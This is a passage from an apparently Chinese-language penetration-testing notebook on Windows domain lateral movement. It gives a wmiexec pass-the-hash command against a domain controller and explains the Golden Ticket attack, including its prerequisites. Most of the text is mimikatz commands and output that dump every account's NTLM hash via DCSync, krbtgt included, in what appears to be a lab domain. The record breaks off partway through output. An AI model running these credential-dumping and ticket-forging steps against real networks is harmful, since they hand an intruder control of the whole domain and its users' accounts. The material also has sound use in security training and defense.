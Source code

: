 #### wmiexec

上面写过了。。。

```
wmiexec.exe -hashes :520126a03f5d5a8d836f1c4f34ede7ce ghost/dc@192.168.188.100
```

![image-20220319165549388](内网渗透&横向移动/image-20220319165549388.png)

## PTT(Pass the ticket)

### 黄金票据

Golden Ticket（下面称为金票）是通过伪造的TGT（Ticket Granting Ticket），因为只要有了高权限的TGT，那么就可以发送给TGS换取任意服务的ST。可以说有了金票就有了域内的最高权限。

条件：

1、域名称 

2、域的 SID 值 

3、域的 KRBTGT 账号的 HASH 

4、伪造任意用户名

得到kratgr的hash：

```sh
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::dcsync /domain:ghost.com /all /csv
[DC] 'ghost.com' will be the domain
[DC] 'WIN-4JS3YOGGQ2T.ghost.com' will be the DC server
[DC] Exporting domain 'ghost.com'
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
1001    WIN-4JS3YOGGQ2T$        b443a0863dfb6f394b46983d0d795fb6        532480
1104    DM_WIN2003$     13e19dba1a1ad144d9bced3585afa9a9        4096
500     Administrator   520126a03f5d5a8d836f1c4f34ede7ce        512
1000    DC      520126a03f5d5a8d836f1c4f34ede7ce        544
502     krbtgt  a5269d41b184a97adc9b991f2ee21f12        514
1105    DM_WINXP$       5469d97f136d8662f65377f3ea8e4835        528384
1107    yutao   520126a03f5d5a8d836f1c4f34ede7ce        66048
1109    yutaowin10      520126a03f5d5a8d836f1c4f34ede7ce        66048
1108    DM_WIN10$       bc3746c7020c2c97eac589107a57790f        4096
1110    DM_WIN10_2$     aa5910b813ef7a8784d7522dad99ee07        4096
mimikatz # lsadump::dcsync /domain:ghost.com /user:krbtgt
[DC] 'ghost.com' will be the domain
```